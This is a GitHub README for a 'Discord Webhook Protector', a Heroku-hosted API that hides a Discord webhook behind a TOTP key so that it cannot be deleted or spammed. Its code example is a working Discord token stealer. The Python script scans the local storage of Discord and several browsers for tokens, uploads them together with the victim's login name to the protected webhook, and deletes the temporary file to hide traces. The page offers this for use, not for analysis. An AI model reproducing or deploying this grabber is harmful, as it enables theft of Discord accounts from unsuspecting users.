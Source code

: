 <h1 align="center">
  Discord Webhook Protector 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Webhook-Protector/Discord-Webhook-Protector.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Discord-Webhook-Protector&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square"/>
</p>

<h4 align="center">
  <a href="https://cheataway.com">🌌・Discord</a>
  ⋮
  <a href="https://github.com/Rdimo/Discord-Webhook-Protector#-%E3%80%A2-hosting-the-api">🎉・Setup the api</a>
  ⋮
  <a href="https://github.com/Rdimo/Discord-Webhook-Protector#-%E3%80%A2-code-example">🎈・Code example</a>
</h4>

<h2 align="center">
  Discord-Webhook-Protector was made by

Love ❌ code ✅

</h2>

---

## 🔰 〢 Features

```
> Easy to setup!
> Configurable!
> Completely *free* and stays online *24/7*
> Accepts json, discord embeds and files!
> Ratelimits unauthorized requests!
> Accepting only post requests!
> Impossible to delete webhook
> Webhook protected by totp so webhook can't be spammed even if they http debug!
```

---

### 📁 〢 Hosting the api

1. Create an account on [Heroku.com](https://heroku.com) (Yes all of this is **free**)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. Open [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json) and put in your webhook at the top
4. Now you need a key, open cmd in the directory and type the following ⇣
```sh-session
$ cd test
$ py keyGen.py
>>> Your key is: ...
>>> Copied key to clipboard!
```
5. Paste your generated key in [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json)
6. Open a new cmd in the directory and type `npm i`
7. Now follow these steps carefully ⇣

```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku master
...
$ heroku ps:scale web=1
...
$ heroku domains
...
```

8. Done! After typing `heroku domains` you should get something in the console like **shrouded-fjord-36366.herokuapp.com**. This is your api with your undeletable/unspammable webhook!

#### If you get an error when doing `"git push heroku master"` that looks like this

```sh
$ first issue error: failed to push some refs to 'https://git.heroku.com/app-name.git'
```
Then run `"git push heroku main"` instead | https://github.com/Rdimo/Discord-Webhook-Protector/issues/1

ㅤ

If you make some changes in the code and want to update the api on heroku, simply run `npm run deploy` to push out the updates \
If any bugs occur please report them or try and see if restarting the app by typing `heroku restart` works!
For testing that your api works, open cmd in the directory and type the following ⇣

```sh-session
$ cd .\test
...
$ py test.py
```

it should've made a post request to the api uploading itself and sending "it works!" to the webhook

---

### ⚙ 〢 Settings

The config and what the options do

```json
{
  "webhook": "https://discord.com/api/webhooks/0123456789/abcdefghijklmnopqrstuvwxyz", //your discord webhook
  "pass32": "K4ZVUQTSIRMDOWKRGU2WQQTZJM======" /*a key encoded in base32, use the keyGen in ./test or see https://github.com/bellstrand/totp-generator#how-to-use for more*/,
  "rateLimitTimeout": 12000, //amount of milliseconds an ip gets ratelimited (Default: 30000 --> 30 seconds)
  "port": 3000 //port
}
```

---

### 🎈 〢 Code example

Example use of the api hosted on heroku

```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
_file = os.getenv('temp') + os.sep + 'tokens.txt'

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    with open(_file, 'a') as f:
                        f.write(token)

requests.post(api, headers={"Authorization": key}, data={"content": f'Successfully grabbed tokens from {os.getlogin()}:'}) #send the text to webhook
requests.post(api, headers={"Authorization": key}, files={"upload_file": open(_file, 'rb')}) #send text file with tokens in it to the webhook
os.remove(_file) #delete traces
```

> Thank you [xrevix](https://github.com/xrevix) for bug testing and reporting all of them 😘
